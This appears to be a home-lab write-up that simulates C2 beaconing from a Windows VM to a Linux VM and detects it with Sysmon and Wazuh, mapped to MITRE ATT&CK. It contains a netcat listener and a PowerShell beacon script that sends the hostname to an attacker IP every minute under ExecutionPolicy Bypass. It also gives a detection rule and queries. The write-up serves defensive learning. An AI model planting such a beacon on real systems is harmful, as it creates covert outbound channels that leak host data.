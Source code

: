 # Phase 2: Scenario 3 - External Beaconing

## Attack Overview
- **Description**: Simulated a malicious process on the Windows VM establishing periodic network connections to the Arch Linux VM, mimicking C2 communication typical of malware or backdoors. This represents an insider threat or compromised system beaconing to an attacker-controlled server.
- **MITRE ATT&CK**: 
  - [T1071.001 - Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/)
  - [T1571 - Non-Standard Port](https://attack.mitre.org/techniques/T1571/)
- **Objective**: Demonstrate detection of suspicious network connections using Sysmon and Wazuh on Windows.
- **Date and Time**: June 15, 2025, ~12:04 AM IST

## Simulation Details
- **Environment**: 
  - **Target**: Windows 10 (hostname: `DESKTOP-FF0MPJM`, IP: `192.168.1.36`, Wazuh agent: `SIEM-Target-Windows`).
  - **Attacker**: Script executed locally; Arch Linux (IP: `192.168.1.2`) as C2 server.
- **Sysmon Config**: SwiftOnSecurity `sysmonconfig-export.xml`.
- **Simulation Command From Arch Linux (C2 Setup)**:
  ```bash
  nc -l -p 8080 > /tmp/c2_log.txt
  ```
- **Simulation Command From Windows**:
  In PowerShell:
  ```powershell
  $script = @'
  while ($true) {
      try {
          $client = New-Object System.Net.Sockets.TcpClient("192.168.1.2", 8080)
          $stream = $client.GetStream()
          $writer = New-Object System.IO.StreamWriter($stream)
          $writer.WriteLine("Beacon from $env:COMPUTERNAME at $(Get-Date)")
          $writer.Flush()
          $stream.Close()
          $client.Close()
      } catch {}
      Start-Sleep -Seconds 60
  }
'@
  Set-Content -Path C:\Temp\beacon.ps1 -Value $script
  powershell -ExecutionPolicy Bypass -File C:\Temp\beacon.ps1
  ```
- **Execution**:
  1. Started a Netcat listener on Arch Linux.
  2. Created and executed `beacon.ps1` on Windows, connecting to `192.168.1.2:8080` every 60 seconds.
  3. Verified connections: `cat /tmp/c2_log.txt`.
  4. Stopped script after ~5 minutes.
- **Expected Events**:
  - **Sysmon Event ID 11**: File creation of `C:\Temp\beacon.ps1`.
  - **Sysmon Event ID 1**: Process creation of `powershell.exe`.
  - **Sysmon Event ID 3**: Network connections to `192.168.1.2:8080`.
  - **Wazuh**: Alerts triggered by rule ID 123456.

## Detection in Wazuh
- **Wazuh Rule**: Rule ID 123456 (from `custom_rules.xml`):
  ```xml
  <rule id="123456" level="12">
    <if_sid>61603</if_sid>
    <field name="sysmon.destination_ip">192\.168\.1\.2</field>
    <field name="sysmon.destination_port">8080</field>
    <description>Potential beaconing to attacker IP</description>
    <mitre>
      <id>T1071.001</id>
    </mitre>
  </rule>
  ```
- **Search Query** (Wazuh Dashboard > Security Events > Discover):
  ```kql
  rule.id:123456 AND agent.name:SIEM-Target-Windows AND sysmon.destination_ip:"192.168.1.2" AND sysmon.destination_port:8080
  ```
- **Findings**:
  - Observed 1+ alerts with `rule.id:123456`.
  - Sysmon Event ID 3 logged connections to `192.168.1.2:8080`.
  - Event ID 11 logged file creation.
  - Event ID 1 captured `powershell.exe`.
  - `rule.level:12` indicates high-severity.
- **Screenshots**:
  - `Screenshots/wazuh_alerts_beacon.png`: Wazuh Dashboard alert list.
  - `Screenshots/sysmon_log_beacon.png`: Sysmon events in Event Viewer.
  - `Screenshots/powershell_beacon_output.png`: PowerShell execution.
- **Logs**:
  - `Logs/sysmon_events_beacon.evtx`: Exported Sysmon logs.
  - `Logs/wazuh_agent_filtered_beacon.log`: Wazuh agent logs.

## Learnings
- **Blue Teaming Insight**: Periodic connections to non-standard ports indicate C2 activity. Sysmon’s network logging and Wazuh’s rules detect beaconing.
- **Challenges**: Legitimate apps using port 8080 may cause false positives; filtering by IP and process reduces noise.
- **Technical Growth**: Learned to simulate C2 beaconing, analyze Sysmon network events, and refine Wazuh queries.
- **Best Practice**: Monitor non-standard ports and set alerts for repeated connections.

## Detection Logic Query
```kql
rule.id:123456 AND agent.name:SIEM-Target-Windows AND sysmon.destination_ip:"192.168.1.2" AND sysmon.destination_port:8080
```
- **Purpose**: Identifies beaconing to `192.168.1.2:8080`.
- **Outcome**: High-severity alert for C2 activity.

## References
- [MITRE ATT&CK: Application Layer Protocol](https://attack.mitre.org/techniques/T1071/001/)
- [MITRE ATT&CK: Non-Standard Port](https://attack.mitre.org/techniques/T1571/)
- [Wazuh Documentation: Sysmon Integration](https://documentation.wazuh.com/current/user-manual/ruleset/sysmon.html)

## Attachments
- **Logs**: [/home/user/Phase2/Scenario-3-ExternalBeaconing/Logs/](/DetectAndDefend/phase2/External%20Beaconing/logs/log1.json)
- **Screenshots**:
  1. [Attack Simulation in PowerShell](/DetectAndDefend/phase2/External%20Beaconing/screenshots/powershell-executuion.png)
  2. [Wazuh Dashboard with Event Logs](/DetectAndDefend/phase2/External%20Beaconing/screenshots/wazuh-dashboard-logs.png)
  3. [Wazuh Dashboard with Event Logs Only](/DetectAndDefend/phase2/External%20Beaconing/screenshots/wazuh-log-deatiled.png)
  4. [ Beacon Host ](/DetectAndDefend/phase2/External%20Beaconing/screenshots/Beacon-Host.png)